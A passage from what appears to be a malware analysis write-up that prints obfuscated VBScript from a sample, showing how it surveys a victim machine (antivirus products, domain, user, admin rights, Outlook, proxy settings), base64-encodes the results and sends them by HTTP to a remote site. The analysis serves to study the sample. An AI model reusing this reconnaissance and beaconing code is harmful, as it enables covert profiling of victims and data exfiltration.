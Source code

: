 
                    sText = BuildQuery()

                    If InitHTTP(myWebsite, objHTTP, sText) Then
                        MsgBox sText, vbOKOnly, "Reqeust Sent HTTP"
                    Else
                        MsgBox sText, vbOKOnly, "Failed to Initiate HTTP request"
                    End If



#### Survey Data

The data that is sent out is an obfuscated string. First, it collects a
bunch of information:



        hhhhhhhh = "winmgmts:\\.\root\cimv2"
        iiiiiiiii = "winmgmts:{impersonationLevel=impersonate}!\\"
        jjjjjjjj = "\root\SecurityCenter2"
        kkkkkkk = "Select * frOm AntiVir"
        llllllllll = "usProduct"
        mmmmmmm = "Select * from Win32_ComputerSystem"
        nnnnnnn = "WinNTSystemInfo"
        oooooo = "\root\default:StdRegProv"
        ppppppp = "winmgmts://"
        qqqqqqq = "u="
        rrrrrr = "&d="
        ttttttt = "&isA="
        ssssssssss = "&out="
        uuuuuuu = "&av="
        vvvvvvvv = "&Proxy="
        Const strComputer = "."
        Set objWMISvc = GetObject(hhhhhhhh)
        Set AVWMI = GetObject(iiiiiiiii & strComputer & jjjjjjjj)
        Set colItemsAV = AVWMI.ExecQuery(kkkkkkk & llllllllll)
        Set colItemsDOM = objWMISvc.ExecQuery(mmmmmmm)
        Set objSysInfo = CreateObject(nnnnnnn)
        Set oReg = GetObject(iiiiiiiii & strComputer & oooooo)
        strObject = ppppppp & strComputer
        ddddddDDD = GetDomain(objWMISvc, colItemsDOM)
        uuuUU1 = GetUser(objSysInfo)
        iissAAA = IsLocalAdmin(objSysInfo)
        Outout = IsOutlookRunning(objWMISvc)
        aAAVVv = GetAV(colItemsAV)
        pPPPRRr = GetProxy(oReg)



Then it combines it all into a string, and calls `btoa` to base64 encode
it:



        Str = btoa(qqqqqqq & uuuUU1 & rrrrrr & ddddddDDD & ttttttt & iissAAA & ssssssssss & Outout & uuuuuuu & aAAVVv & vvvvvvvv & pPPPRRr)
